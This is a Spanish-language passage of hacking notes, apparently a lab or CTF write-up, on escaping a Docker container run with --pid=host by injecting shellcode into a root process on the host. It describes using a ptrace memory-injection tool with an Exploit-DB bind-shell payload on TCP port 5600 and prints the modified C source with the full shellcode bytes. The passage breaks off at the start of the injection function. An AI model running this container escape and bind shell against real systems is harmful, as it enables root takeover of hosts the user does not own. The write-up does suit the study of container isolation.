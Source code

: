 Entonces ahora si entras al contendor y listas los procesos puedes ver que esta corriendo un servidor en python como root pero este esta en la maquina principal y todo esto se acontece gracias al parametro --pid=host

![[Pasted image 20240303154657.png]]


Como vemos que el usuario root es el que esta lanzado este proceso lo que se puede hacer es inyectar una shellcode al proceso con la cual podemos crear un subproceso con el cual ejecutar comandos lo que podemos hacer es usar la herramienta https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c la cual trata de inyectar un shellcode que lanza un sh en nuestro caso lo que haremos es que en vez de lanzar una sh nos de una bindshell entonces podemos usar el shellcode que se muestra en este sitio https://www.exploit-db.com/exploits/41128 este lo que hace es que abre el puerto 5600 por tcp para si nos conectamos  a este por netcat tener una consola interactiva como el propietario del servicio en este caso root entonces para esto dentro del contenedor creamos un archivo de c con la herrmienta antes mencionada pero tendremos que modificar lo siguiente

![[Pasted image 20240304083408.png]]


Esto sera modificado por la longitud del shellcode que nos da la bindshell y el shellcode correspondendiente por lo que quedaria de la siguiente forma:

```c
/*
  Mem Inject
  Copyright (c) 2016 picoFlamingo

This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

You should have received a copy of the GNU General Public License
along with this program.  If not, see <http://www.gnu.org/licenses/>.
*/

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>


#include <sys/ptrace.h>
#include <sys/types.h>
#include <sys/wait.h>
#include <unistd.h>

#include <sys/user.h>
#include <sys/reg.h>

#define SHELLCODE_SIZE 87

unsigned char *shellcode = "\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05";


int
inject_data (pid_t pid, unsigned char *src, void *dst, int len)
```
